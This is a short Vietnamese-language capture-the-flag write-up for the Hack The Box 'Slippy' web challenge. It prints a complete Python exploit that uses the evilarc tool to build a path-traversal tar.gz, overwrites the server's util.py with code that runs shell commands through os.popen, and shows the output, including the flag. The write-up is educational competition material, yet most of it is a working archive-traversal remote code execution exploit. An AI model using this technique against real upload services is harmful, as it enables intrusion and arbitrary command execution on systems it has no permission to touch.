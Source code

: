 # __Slippy__
</br> [source](https://github.com/magnetohvcs/CTF/raw/main/ctf-hackthebox/Uni%20CTF%202021%20Quals/src/web_slippy.zip)

 __tóm tắt__ : cố gắng upload file tar.gz để lấy flag, ta không thể dùng symlinks để cố gắng truy cập file flag mà ta sẽ dùng [công cụ này](https://github.com/ptoomey3/evilarc). 
 
 </br> Đầu tiên tải [evilary](https://github.com/ptoomey3/evilarc) và sau đó chạy đoạn mã này
 
 ```
 import requests, os, json, time
s = requests.session()

ip_port = '64.227.40.93:32528' # change this
url = 'http://%s/api/unslippy'%ip_port
util = '''
import functools, tarfile, tempfile, os
from application import main

generate = lambda x: os.urandom(x).hex()

def extract_from_archive(file):
    return [os.popen('ls -al && cat flag').read()]
''' 

open('util.py','w').write(util)
path_evilary = '~/evilarc/evilarc.py' # change  this
os.system('python2 %s -d 3 -o u -f flag.tar.gz util.py'%path_evilary)
s.post(url,files={'file':open('flag.tar.gz','rb')})
time.sleep(2)
res = s.post(url,files={'file':open('flag.tar.gz','rb')}).text
print(json.loads(res)['list'][0])
```
__output__
```
Creating flag.tar.gz containing ../../../util.py
total 28
drwxr-xr-x    1 root     root          4096 Nov 16 23:46 .
drwxr-xr-x    1 root     root          4096 Nov 23 06:25 ..
drwxr-xr-x    1 root     root          4096 Nov 23 06:25 application
-rw-r--r--    1 root     root            29 Nov 16 10:45 flag
-rw-r--r--    1 root     root            98 Nov 15 13:22 run.py
HTB{i_slipped_my_way_to_rce}
```
